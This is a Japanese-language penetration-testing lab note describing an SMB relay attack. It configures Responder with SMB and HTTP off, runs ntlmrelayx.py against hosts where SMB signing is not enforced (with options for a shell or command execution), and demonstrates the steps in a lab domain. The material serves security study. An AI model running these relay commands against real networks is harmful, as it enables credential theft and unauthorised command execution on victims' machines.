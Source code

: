 ホストでSMB署名が無効または強制されていない状態を発見したら、Responderの設定を変更する
- キャプチャするのではなく、実際に中継されていることを確認するために**SMBとHTTPをオフにする**
```sh
sudo nano /etc/responder/Responder.conf
```

設定ができたら、Responderを実行する
```sh
sudo responder -I tun0 -v
```

ntlmrelayxというツールも実行する
- SMB署名が無効・強制されていないことを確認したホストをターゲットをtargets.txtとして設定して実行する
	- `-l`オプションを設定すると、シェルを開くこともできる
	- `-c "whoami"` : これでコマンドも実行できる
```sh
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

これで、Responderがハッシュをキャプチャすると、そのハッシュをそのままNTLMリレーに転送して、選択されたターゲットにハッシュをさらに転送できるようになる
そして、キャプチャしたハッシュを持つマシンで、ローカル管理者であればなんらかの成果を得られる

Responderにまずスキャンされるようなイベントを起こす必要がある


## 攻撃実証

nmapで、DCにSMB署名がないかを確認する
結果として、DCでは、SMB署名が強制されていることがわかった
DCにはsmbリレー攻撃はできない
![](https://i.imgur.com/7CPZGwb.png)


しかし、他のドメイン参加ホストに対して行ってみると、SMB署名が有効化されているが、強制はされていないことがわかる
![](https://i.imgur.com/nAtaGy4.png)

そこで、「SMB署名が有効化されているが、強制はされていない」ターゲットをまとめて、書く
![](https://i.imgur.com/PUUN3Wg.png)


responderの設定ファイルをsmb relay攻撃用に書き換える
```sh
sudo nano /etc/responder/Responder.conf
```

SMBとHTTPをOnからOffにする
![](https://i.imgur.com/b5hmBiN.png)


Responderを実行する
- 実行した時にSMBとHTTPがオフになっていることを確認する
```sh
sudo responder -I eth1 -v
```

![](https://i.imgur.com/UTT8YS1.png)
